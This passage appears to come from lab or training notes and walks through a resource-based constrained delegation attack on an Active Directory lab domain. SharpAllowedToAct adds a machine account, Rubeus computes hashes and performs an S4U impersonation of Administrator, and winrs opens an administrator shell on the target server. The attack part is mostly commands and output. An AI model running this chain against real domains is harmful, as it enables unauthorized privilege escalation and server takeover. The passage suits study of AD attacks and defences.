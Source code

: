 ```powershell
```
#### 14.3.1.1 Using *SharpAllowedToAct*
- We can also use `SharpAllowedToAct` to automate the attack. First we need to make sure that only the TGT for `us\mgmtadmin` is cached in our session's memory.
```powershell
PS C:\Auditor> .\SharpAllowedToAct.exe -m US-WRKST2 -p 'Password321!' -t US-HELPDESK -a US-DC -d us.techcorp.local
[+] Domain = us.techcorp.local
[+] Domain Controller = US-DC
[+] New SAMAccountName = US-WRKST2$
[+] Distinguished Name = CN=US-WRKST2,CN=Computers,DC=us,DC=techcorp,DC=local
[+] Machine account US-WRKST2 added
[+] SID of New Computer: S-1-5-21-210670787-2521448726-163245708-20102
[+] Attribute changed successfully
[+] Done!
```
- We will need to find the RC4 hash of `us-wrkst2$` in order to impersonate the account.
```powershell
PS C:\Auditor> .\Rubeus.exe hash /user:US-WRKST2 /password:'Password321!' /domain:us.techcorp.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Password321!
[*] Input username             : US-WRKST2
[*] Input domain               : us.techcorp.local
[*] Salt                       : US.TECHCORP.LOCALUS-WRKST2
[*]       rc4_hmac             : 13B1E64400203ECF38B1FDEA2B11A09F
[*]       aes128_cts_hmac_sha1 : F1B7E1173F550F5EF2BC189C57004B13
[*]       aes256_cts_hmac_sha1 : 6BDA42EC413F38F6788E873E0C834D18F27908C7EFFB5A077C7463AB6526C143
[*]       des_cbc_md5          : 3B23E3984F5B07BF
```
- We will now use the S4U Kerberos extension to request a a TGS for the service name we want impersonating a user with administrative privileges.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /user:us-wrkst2$ /rc4:13B1E64400203ECF38B1FDEA2B11A09F /impersonateuser:Administrator /msdsspn:http/us-helpdesk.us.techcorp.local /nowrap /ptt

<snip>
```
- We can now access the compromised server.
```powershell
PS C:\Auditor> winrs -r:us-helpdesk.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> whoami;hostname
whoami;hostname
us\administrator
US-HelpDesk
```
- We can now clear the `msds-allowedtoactonbehalfofotheridentity` attribute of the compromised server. First we will need to clean our Kerberos tickets and request a TGT for `us\mgmtadmin`, since this account has `GenericWrite` permissions over `US-HELPDESK`. However, if we want to disable the computer account we created for the attack, we will need to use `Powermad`.